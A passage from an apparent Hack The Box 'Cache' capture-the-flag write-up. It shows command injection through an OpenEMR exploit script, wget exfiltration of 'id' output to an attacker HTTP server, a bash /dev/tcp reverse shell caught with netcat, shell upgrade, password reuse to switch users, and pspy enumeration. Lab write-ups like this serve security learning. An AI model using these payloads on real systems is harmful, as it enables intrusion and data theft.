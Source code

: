     :::text
    $python ./45161.py 'http://hms.htb' -u openemr_admin -p xxxxxx -c 'wget http://10.10.14.156:8081/$(id)t 0>&1'

    $python3 -m http.server 8081
    Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
    10.10.10.188 - - [16/May/2020 08:44:58] code 404, message File not found
    10.10.10.188 - - [16/May/2020 08:44:58] "GET /uid=33(www-data) HTTP/1.1" 404 -

We change our payload in order to get a reverse shell. We launch a `netcat` to
catch our reverse shell.

    :::text
    $python ./45161.py 'http://hms.htb' -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.156/4242 0>&1'

    $nc -l -p 4242
    bash: cannot set terminal process group (2504): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
    whoami
    www-data

We use python in order to get a better shell. And switch user to `ash` reusing
the password found in the JavaScript file. This allow us to get to the
`user.txt` flag.

    :::text
    www-data@cache:/var/www/hms.htb/public_html/interface/main$ python3 -c 'import pty; pty.spawn("/bin/sh")'
    $ su ash
    su ash
    Password: H@v3_fun

    ash@cache:/var/www/hms.htb/public_html/interface/main$ cd
    cd
      ash@cache:~$ cat user.txt
    cat user.txt
    a3014a6da5ebe33cd897b66b44397ef1

# Root

We use [pspy](https://github.com/DominicBreuker/pspy) to enumerate the running
process. We see that a few process are running especially `dockerd` and
`memecached`. Given the name of the box is certain that the `memcached` process
is involved.

    :::text
    www-data@cache:/tmp/.plop$ ./pspy64
    ./pspy64
    <snip>
    done
    2020/05/16 16:16:33 CMD: UID=103  PID=994    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only 
    2020/05/16 16:16:33 CMD: UID=0    PID=992    | /usr/sbin/cron -f 
    2020/05/16 16:16:33 CMD: UID=0    PID=977    | /usr/bin/dockerd -H fd:// 
    2020/05/16 16:16:33 CMD: UID=0    PID=969    | /usr/lib/accountsservice/accounts-daemon 
    2020/05/16 16:16:33 CMD: UID=111  PID=964    | /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid 
    2020/05/16 16:16:33 CMD: UID=0    PID=961    | /usr/bin/VGAuthService 
    2020/05/16 16:16:33 CMD: UID=0    PID=96     | 
